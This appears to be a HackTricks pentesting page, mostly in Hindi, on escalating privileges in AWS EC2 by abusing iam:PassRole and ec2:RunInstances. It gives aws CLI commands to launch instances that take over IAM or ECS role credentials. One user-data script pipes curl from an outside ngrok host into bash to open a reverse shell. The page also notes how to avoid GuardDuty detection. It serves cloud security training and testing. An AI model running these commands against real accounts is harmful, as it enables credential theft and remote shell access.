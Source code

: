# AWS - EC2 Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EC2

For more **info about EC2** check:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `iam:PassRole`, `ec2:RunInstances`

एक हमलावर **एक IAM भूमिका संलग्न करते हुए एक उदाहरण बना सकता है और फिर उदाहरण तक पहुँच सकता है** ताकि मेटाडेटा एंडपॉइंट से IAM भूमिका क्रेडेंशियल्स चुराए जा सकें।

- **SSH के माध्यम से पहुँच**

एक **बनाए गए** **ssh कुंजी** (`--key-name`) का उपयोग करके एक नया उदाहरण चलाएँ और फिर इसमें ssh करें (यदि आप एक नया बनाना चाहते हैं तो आपको `ec2:CreateKeyPair` अनुमति होनी चाहिए)।
```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
--security-group-ids <sg-id>
```
- **उपयोगकर्ता डेटा में रिव शेल के माध्यम से पहुँच**

आप एक नया उदाहरण चला सकते हैं जो एक **उपयोगकर्ता डेटा** (`--user-data`) का उपयोग करेगा जो आपको एक **रिव शेल** भेजेगा। इस तरीके से आपको सुरक्षा समूह निर्दिष्ट करने की आवश्यकता नहीं है।
```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
--iam-instance-profile Name=<instance-profile-name> \
--count 1 \
--user-data "file:///tmp/rev.sh"
```
GuradDuty के साथ सावधान रहें यदि आप इंस्टेंस के बाहर IAM भूमिका के क्रेडेंशियल्स का उपयोग करते हैं:

{{#ref}}
../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md
{{#endref}}

**संभावित प्रभाव:** किसी भी EC2 भूमिका तक सीधे पहुँच जो मौजूदा इंस्टेंस प्रोफाइल से जुड़ी है।

#### ECS तक पहुँच

इन अनुमतियों के सेट के साथ, आप **एक EC2 इंस्टेंस बना सकते हैं और इसे एक ECS क्लस्टर के अंदर पंजीकृत कर सकते हैं**। इस तरह, ECS **सेवाएँ** **EC2 इंस्टेंस** के अंदर **चलाई जाएंगी** जहाँ आपके पास पहुँच है और फिर आप उन सेवाओं (docker कंटेनरों) में प्रवेश कर सकते हैं और **उनकी ECS भूमिकाएँ चुरा सकते हैं**।
```bash
aws ec2 run-instances \
--image-id ami-07fde2ae86109a2af \
--instance-type t2.micro \
--iam-instance-profile <ECS_role> \
--count 1 --key-name pwned \
--user-data "file:///tmp/asd.sh"

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
```